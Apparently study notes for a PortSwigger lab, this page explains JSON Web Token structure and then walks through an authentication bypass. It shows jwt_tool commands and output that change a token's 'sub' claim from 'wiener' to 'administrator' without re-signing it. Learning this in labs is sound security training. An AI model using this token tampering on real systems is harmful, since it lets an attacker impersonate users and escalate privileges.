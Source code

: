 # JWT Attacks

## References

- [JWT Attacks - PortSwigger](https://portswigger.net/web-security/jwt)
- [JWT Vulnerabilities - HackTricks](https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens)
- [Pentest JWT Token (Playlist) - AulasHack](https://odysee.com/$/playlist/1b7dc3665c5cf1c05af4d0e56fd30d94031af8ba)

## Labs

- [JWT Vulnerabilities Labs - PortSwigger](https://portswigger.net/web-security/all-labs#jwt)

## Useful Tools

- [jwt.io](https://jwt.io/)
- [jwt_tool - Github](https://github.com/ticarpi/jwt_tool)

## Resume

###  What are JWT Tokens?

​            JSON web tokens (JWTs) are a standardized format for sending cryptographically signed JSON data between systems. They can  theoretically contain any kind of data, but are most commonly used to  send information ("claims") about users as part of authentication,  session handling, and access control mechanisms.        

​            Unlike with classic session tokens, all of the data that a  server needs is stored client-side within the JWT itself. This makes  JWTs a popular choice for highly distributed websites where users need  to interact seamlessly with multiple back-end servers.        

### JWT format

​            A JWT consists of 3 parts: a header, a payload, and a signature. These are each separated by a dot, as shown in the following example:        

```
eyJraWQiOiI5MTM2ZGRiMy1jYjBhLTRhMTktYTA3ZS1lYWRmNWE0NGM4YjUiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTY0ODAzNzE2NCwibmFtZSI6IkNhcmxvcyBNb250b3lhIiwic3ViIjoiY2FybG9zIiwicm9sZSI6ImJsb2dfYXV0aG9yIiwiZW1haWwiOiJjYXJsb3NAY2FybG9zLW1vbnRveWEubmV0IiwiaWF0IjoxNTE2MjM5MDIyfQ.SYZBPIBg2CRjXAJ8vCER0LA_ENjII1JakvNQoP-Hw6GG1zfl4JyngsZReIfqRvIAEi5L4HV0q7_9qGhQZvy9ZdxEJbwTxRs_6Lb-fZTDpW6lKYNdMyjw45_alSCZ1fypsMWz_2mTpQzil0lOtps5Ei_z7mM7M8gCwe_AGpI53JxduQOaB5HkT5gVrv9cKu9CsW5MS6ZbqYXpGyOG5ehoxqm8DL5tFYaW3lB50ELxi0KsuTKEbD0t5BCl0aCR2MBJWAbN-xeLwEenaqBiwPVvKixYleeDQiBEIylFdNNIMviKRgXiYuAvMziVPbwSgkZVHeEdF5MQP1Oe2Spac-6IfA
```

​            The header and payload parts of a JWT are just  base64url-encoded JSON objects. The header contains metadata about the  token itself, while the payload contains the actual "claims" about the  user. For example, you can decode the payload from the token above to  reveal the following claims:        

```json
{
  "iss": "portswigger",
  "exp": 1648037164,
  "name": "Carlos Montoya",
  "sub": "carlos",
  "role": "blog_author",
  "email": "carlos@carlos-montoya.net",
  "iat": 1516239022
}
```

​            In most cases, this data can be easily read or modified by  anyone with access to the token. Therefore, the security of any  JWT-based mechanism is heavily reliant on the cryptographic signature.        

### JWT signature

​            The server that issues the token typically generates the  signature by hashing the header and payload. In some cases, they also  encrypt the resulting hash. Either way, this process involves a secret  signing key. This mechanism provides a way for servers to verify that  none of the data within the token has been tampered with since it was  issued:        

- As the signature is directly derived from the rest  of the token, changing a single byte of the header or payload results in a mismatched signature.                
- Without knowing the server's secret signing key, it  shouldn't be possible to generate the correct signature for a given  header or payload.                

### What are JWT attacks and what are the impacts?

​            JWT attacks involve a user sending modified JWTs to the  server in order to achieve a malicious goal. Typically, this goal is to  bypass authentication and access controls by impersonating another user  who has already been authenticated.        

The impact of JWT attacks is usually severe. If an attacker is able to  create their own valid tokens with arbitrary values, they may be able to escalate their own privileges or impersonate other users, taking full  control of their accounts. 

## Vulnerabilities

### JWT authentication bypass via unverified signature

**Resources:**

- **Lab:** https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-unverified-signature
- **AulasHack Video Resolution:** https://odysee.com/@AulasHack:4/jwt-authentication-bypass-via-unverified:6?lid=1b7dc3665c5cf1c05af4d0e56fd30d94031af8ba

**Explanation:** 

​            By design, servers don't usually store any information about the JWTs that they issue. Instead, each token is an entirely  self-contained entity. This has several advantages, but also introduces a fundamental problem - the server doesn't actually know anything about  the original contents of the token, or even what the original signature  was. Therefore, if the server doesn't verify the signature properly,  there's nothing to stop an attacker from making arbitrary changes to the rest of the token.        

​            For example, consider a JWT containing the following claims:        

```json
{    
	"username": "carlos",    
	"isAdmin": false 
}
```

​            If the server identifies the session based on this `username`, modifying its value might enable an attacker to impersonate other logged-in users. Similarly, if the `isAdmin` value is used for access control, this could provide a simple vector for privilege escalation.        

​            In the first couple of labs, you'll see some examples of how these vulnerabilities might look in real-world applications.       

**Resolution:**

1. Login at **wiener** account, collect and analyse the JWT Tokent at **jwt.io** or **jwt_tool**.

```bash
└─$ python3 jwt_tool.py eyJraWQiOiI3YTQ4NjQ2YS0yMTgwLTRkOGUtYTA1YS00MjJhOTlkOWFjNzEiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTcxNDQyNTc4Nywic3ViIjoid2llbmVyIn0.cGCHsE9vb_hFeQQ47dlwUqBZd6jlzjoyGMKxFVGvKLh3WKG42j0JiPCDJU5be97aMdzFXcw2FfWwQdBMWbeSVBouqy4Hep5FeI9K5XfyA-tOpSYkbLZlyslRsnyOmb1VokHOrhJpHNdWSUK94fvQMuyucw832oJmi1Z7voKkjHCPpyIywHy8MCOYz0xzB7BNteZviV776Seo_OA5hJT4y2r-Iur7hkyHXhVlU4ORWx62hQb546aIdzRuQDbh1zbzvOmiVlySuwZgNfT_56Uh2i-JTo18AjadGrTD0ZIIG2aGnjAD0ZZkaK6LvDaI6lR_NyJteJJQR54ffC17KoibJg   

        \   \        \         \          \                    \ 
   \__   |   |  \     |\__    __| \__    __|                    |
         |   |   \    |      |          |       \         \     |
         |        \   |      |          |    __  \     __  \    |
  \      |      _     |      |          |   |     |   |     |   |
   |     |     / \    |      |          |   |     |   |     |   |
\        |    /   \   |      |          |\        |\        |   |
 \______/ \__/     \__|   \__|      \__| \______/  \______/ \__|
 Version 2.2.6                \______|             @ticarpi      

Original JWT: 
                                                                                                                                                                                             
=====================
Decoded Token Values:                                                                                                                                                                        
=====================                                                                                                                                                                        

Token header values:                                                                                                                                                                         
[+] kid = "7a48646a-2180-4d8e-a05a-422a99d9ac71"
[+] alg = "RS256"

Token payload values:                                                                                                                                                                        
[+] iss = "portswigger"
[+] exp = 1714425787    ==> TIMESTAMP = 2024-04-29 18:23:07 (UTC)
[+] sub = "wiener"

----------------------                                                                                                                                                                       
JWT common timestamps:                                                                                                                                                                       
iat = IssuedAt                                                                                                                                                                               
exp = Expires                                                                                                                                                                                
nbf = NotBefore                                                                                                                                                                              
----------------------
```

2. Tamper value "wiener" to the "administrator" value using **jwt_tool**.

```bash
─$ python3 jwt_tool.py eyJraWQiOiI3YTQ4NjQ2YS0yMTgwLTRkOGUtYTA1YS00MjJhOTlkOWFjNzEiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTcxNDQyNDQzMiwic3ViIjoid2llbmVyIn0.E_zbMx5P-9T3BbNH8klnEapTlbYpRcYe88NJURL-RM96BSYdnxTZJYhwmcN6lFND_Gj8SijMtBVqWBOmyCE6Mo1Qd58qRwE_tgmBNRAQNexXE1FwjQIBiof0rS_sdoP9D8oTqvTNHy80Wn1YLaB6pdah1yQnl7gTU8mfTolD0dyxVjwUyPjm3OJ7AbPQQYSfPVj93p2VXevDBTSikLphB7_OiiE8ywJSLCAu7_qX2TK0c31RVLjGrPlw-f5Ec3MYEjIY_GAJHMXflgmhCW83Z6AjDmhiClhVEfZ8v1bPQ0m1dUegMHTV7_RwaPanrBmai7EtB_P_OjocF8jwCUu2fg -T

        \   \        \         \          \                    \ 
   \__   |   |  \     |\__    __| \__    __|                    |
         |   |   \    |      |          |       \         \     |
         |        \   |      |          |    __  \     __  \    |
  \      |      _     |      |          |   |     |   |     |   |
   |     |     / \    |      |          |   |     |   |     |   |
\        |    /   \   |      |          |\        |\        |   |
 \______/ \__/     \__|   \__|      \__| \______/  \______/ \__|
 Version 2.2.6                \______|             @ticarpi      

Original JWT: 
                                                                                                                                                                                             

====================================================================                                                                                                                         
This option allows you to tamper with the header, contents and                                                                                                                               
signature of the JWT.                                                                                                                                                                        
====================================================================                                                                                                                         

Token header values:                                                                                                                                                                         
[1] kid = "7a48646a-2180-4d8e-a05a-422a99d9ac71"
[2] alg = "RS256"
[3] *ADD A VALUE*
[4] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:                                                                                                                                                                
(or 0 to Continue)                                                                                                                                                                           
> 0

Token payload values:                                                                                                                                                                        
[1] iss = "portswigger"
[2] exp = 1714424432    ==> TIMESTAMP = 2024-04-29 18:00:32 (UTC)
[3] sub = "wiener"
[4] *ADD A VALUE*
[5] *DELETE A VALUE*
[6] *UPDATE TIMESTAMPS*
[0] Continue to next step

Please select a field number:                                                                                                                                                                
(or 0 to Continue)                                                                                                                                                                           
> 4
Please enter new Key and hit ENTER
> sub
Please enter new value for sub and hit ENTER
> administrator
[1] iss = "portswigger"
[2] exp = 1714424432    ==> TIMESTAMP = 2024-04-29 18:00:32 (UTC)
[3] sub = "administrator"
[4] *ADD A VALUE*
[5] *DELETE A VALUE*
[6] *UPDATE TIMESTAMPS*
[0] Continue to next step

Please select a field number:                                                                                                                                                                
(or 0 to Continue)                                                                                                                                                                           
> 0
Signature unchanged - no signing method specified (-S or -X)
jwttool_084845f9c257880a92a7af8fae9224c1 - Tampered token:
[+] eyJraWQiOiI3YTQ4NjQ2YS0yMTgwLTRkOGUtYTA1YS00MjJhOTlkOWFjNzEiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTcxNDQyNDQzMiwic3ViIjoiYWRtaW5pc3RyYXRvciJ9.E_zbMx5P-9T3BbNH8klnEapTlbYpRcYe88NJURL-RM96BSYdnxTZJYhwmcN6lFND_Gj8SijMtBVqWBOmyCE6Mo1Qd58qRwE_tgmBNRAQNexXE1FwjQIBiof0rS_sdoP9D8oTqvTNHy80Wn1YLaB6pdah1yQnl7gTU8mfTolD0dyxVjwUyPjm3OJ7AbPQQYSfPVj93p2VXevDBTSikLphB7_OiiE8ywJSLCAu7_qX2TK0c31RVLjGrPlw-f5Ec3MYEjIY_GAJHMXflgmhCW83Z6AjDmhiClhVEfZ8v1bPQ0m1dUegMHTV7_RwaPanrBmai7EtB_P_OjocF8jwCUu2fg
```

